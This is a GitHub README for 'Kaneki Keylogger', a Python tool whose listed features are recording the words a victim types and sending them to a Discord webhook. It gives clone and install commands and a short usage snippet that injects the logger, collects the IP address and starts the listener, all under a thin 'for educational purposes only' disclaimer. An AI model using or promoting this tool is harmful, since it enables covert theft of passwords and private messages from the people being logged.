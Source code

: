 <p align='center'>
  <b>Follow me here:</b><br>
  <a href="https://discord.gg/kjdsvNqJff">Discord</a> |
  <a href="https://www.youtube.com/channel/UCdIuioH8MzwMD88XGkliupA">YouTube</a> |
  <a href="https://github.com/KanekiX2">Github</a>
</p>

--- 

**FR:** A but educatif seulement.  
**EN:** For educational purposes only.  

![](https://home.sophos.com/en-us/medialibrary/Microsites/Home/SecurityCenter/what-is-a-keylogger.jpg)
# Keylogger  
**FR** Kaneki Keylogger est un simple key logger écrit en python qui envoie les mots à chaque touche espace où entrer presser, Proposer à but éducatif.
**EN** Kaneki Keylogger is a simple keylogger written in python that sends the words to each key space to enter press, Suggest for educational purpose.


## 💻 Features
- Send the words type to a discord webhook
- Send the words at each space to avoid a ratelimit

## 🛠 Insallation & Usage
### Installation
```bash
git clone https://github.com/KanekiX2/KeyLogger
cd KeyLogger
pip install -r requirements.txt
```
### Usage
```py
from Keylogger import Inject

Injector = Inject(hook="YOUR WEBHOOK LINK")
Injector.get_ip()
Injector.run()
Injector.listener_s()
```


## 📷 Demo
![](https://cdn.discordapp.com/attachments/809886609717329920/835762012650209300/unknown.png)

##  📝 Contact
Mail : _kaneki_pro@protonmail.com_ <br>
Discord : `Kaneki#8888`


## 📚 Contributions
All suggestions are welcome.

### 📜 License
Keylogger is under licensed MIT [MIT License](https://github.com/KanekiX2/KeyLogger/blob/master/LICENSE).

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)
[![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://perso.crans.org/besson/LICENSE.html)
[![Open Source Love svg1](https://badges.frapsoft.com/os/v1/open-source.svg?v=103)](https://github.com/ellerbrock/open-source-badges/)
